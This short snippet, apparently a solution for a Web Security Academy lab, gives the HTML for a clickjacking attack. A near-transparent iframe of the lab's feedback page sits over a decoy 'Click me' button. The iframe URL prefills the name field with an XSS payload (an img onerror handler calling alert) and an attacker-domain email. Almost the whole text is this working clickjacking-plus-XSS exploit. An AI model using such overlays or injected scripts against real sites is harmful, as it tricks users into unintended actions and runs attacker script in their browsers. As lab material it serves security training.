 #use the following HTML
<style>
        iframe {
            position: relative;
            width: 500px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }

        div {
            position: absolute;
            top: 610px;
            left: 80px;
            z-index: 1;
        }
    </style>

    <div>Click me</div>
    <iframe src="https://ac8b1ffb1e01a1c8806406e7002200f2.web-security-academy.net/feedback?name=<img src=1 onerror=alert(1)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>